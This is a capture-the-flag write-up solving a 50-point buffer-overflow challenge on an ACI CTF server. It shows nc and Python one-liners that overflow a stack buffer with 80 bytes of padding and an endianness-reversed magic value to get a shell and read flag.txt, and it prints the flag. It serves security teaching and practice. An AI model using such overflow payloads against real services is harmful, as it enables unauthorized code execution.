# Arturo Brachetti - Points: 50

### Description:

Connect to server with nc challenge.acictf.com 13996. Exploit the service. Read the contents of flag.txt on the server. You can find the source code [here](src/arturo.c)

### Hints

 - Have you heard of buffer overflows?
 - Change the value of win to get a shell

### Solution

Let's just hit this thing with a bunch of `A`s and see what happens.

    shombo$ python -c "print 'A' * 512" | nc challenge.acictf.com 13996
    You need to set win to 48337977
    Enter your string: 0xffe6b8fc:  08048705 (esp)
    0xffe6b8f8: ffe6b958
    0xffe6b8fc: 08048705
    0xffe6b900: ffe6b910
    0xffe6b904: 00000017
    0xffe6b908: ffe6b960
    0xffe6b90c: f75f96bd
    0xffe6b910: 41414141
    0xffe6b914: 41414141
    0xffe6b918: 41414141
    0xffe6b91c: 41414141
    0xffe6b920: 41414141
    0xffe6b924: 41414141
    0xffe6b928: 41414141
    0xffe6b92c: 41414141
    0xffe6b930: 41414141
    0xffe6b934: 41414141
    0xffe6b938: 41414141
    0xffe6b93c: 41414141
    0xffe6b940: 41414141
    0xffe6b944: 41414141
    0xffe6b948: 41414141
    0xffe6b94c: 41414141
    0xffe6b950: 41414141
    0xffe6b954: 41414141
    0xffe6b958: 41414141
    0xffe6b95c: 41414141 (ebp)
    0xffe6b960: 41414141 (ret)
    0xffe6b964: 41414141 (win)
    win value (hex)  = 41414141
    Sorry, you lose.

Alrighty... Now lets use some good ole binary search to derive the size of padding we need to send (we could look at the source, but why would we? This literally takes a second).

    shombo$ python -c "print 'A' * 80" | nc challenge.acictf.com 13996
    You need to set win to 48337977
    Enter your string: 0xffbf150c:  08048705 (esp)
    0xffbf1508: ffbf1568
    0xffbf150c: 08048705
    0xffbf1510: ffbf1520
    0xffbf1514: 00000017
    0xffbf1518: ffbf1570
    0xffbf151c: f75b86bd
    0xffbf1520: 41414141
    0xffbf1524: 41414141
    0xffbf1528: 41414141
    0xffbf152c: 41414141
    0xffbf1530: 41414141
    0xffbf1534: 41414141
    0xffbf1538: 41414141
    0xffbf153c: 41414141
    0xffbf1540: 41414141
    0xffbf1544: 41414141
    0xffbf1548: 41414141
    0xffbf154c: 41414141
    0xffbf1550: 41414141
    0xffbf1554: 41414141
    0xffbf1558: 41414141
    0xffbf155c: 41414141
    0xffbf1560: 41414141
    0xffbf1564: 41414141
    0xffbf1568: 41414141
    0xffbf156c: 41414141 (ebp)
    0xffbf1570: 41414141 (ret)
    0xffbf1574: 00000000 (win)
    win value (hex)  = 0
    Sorry, you lose.

Right on.. now we just have to get `win` to have the value of `48337977`. I'm just going to assume that is hex, and go ahead and decode it since it appears to be in the ascii range (this will make sending the payload easier):

    >>> '48337977'.decode('hex')
    'H3yw'


    shombo$ python -c "print 'A' * 80 + 'H3yw"[::-1] | nc challenge.acictf.com 13996
    You need to set win to 48337977
    Enter your string: 0xffbf150c:  08048705 (esp)
    0xffbf1508: ffbf1568
    0xffbf150c: 08048705
    0xffbf1510: ffbf1520
    0xffbf1514: 00000017
    0xffbf1518: ffbf1570
    0xffbf151c: f75b86bd
    0xffbf1520: 41414141
    0xffbf1524: 41414141
    0xffbf1528: 41414141
    0xffbf152c: 41414141
    0xffbf1530: 41414141
    0xffbf1534: 41414141
    0xffbf1538: 41414141
    0xffbf153c: 41414141
    0xffbf1540: 41414141
    0xffbf1544: 41414141
    0xffbf1548: 41414141
    0xffbf154c: 41414141
    0xffbf1550: 41414141
    0xffbf1554: 41414141
    0xffbf1558: 41414141
    0xffbf155c: 41414141
    0xffbf1560: 41414141
    0xffbf1564: 41414141
    0xffbf1568: 41414141
    0xffbf156c: 41414141 (ebp)
    0xffbf1570: 41414141 (ret)
    0xffbf1574: 00000000 (win)
    win value (hex)  = 0
    Sorry, you lose.

Great. Don't forget to take endianness into account.

    shombo$ python -c "print 'A' * 80 + 'H3yw'[::-1] "| nc challenge.acictf.com 13996
    You need to set win to 48337977
    Enter your string:
    shombo$ 

Hey! What gives! Where's my shell!

Well, when you send the string like this, you also send an implicit EOF that will close your shell and therefore your socket which is why you see it just die.

So, instead, let's just send the payload interactively:

    shombo$ nc challenge.acictf.com 13996
    You need to set win to 48337977
    Enter your string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwy3H
    ls
    arturo
    flag.txt
    xinet_startup.sh
    cat flag.txt
    ACI{remote_code_execution_is_best_execution_26f12d80}
    exit

And there it is.


### Flag: `ACI{remote_code_execution_is_best_execution_26f12d80}`

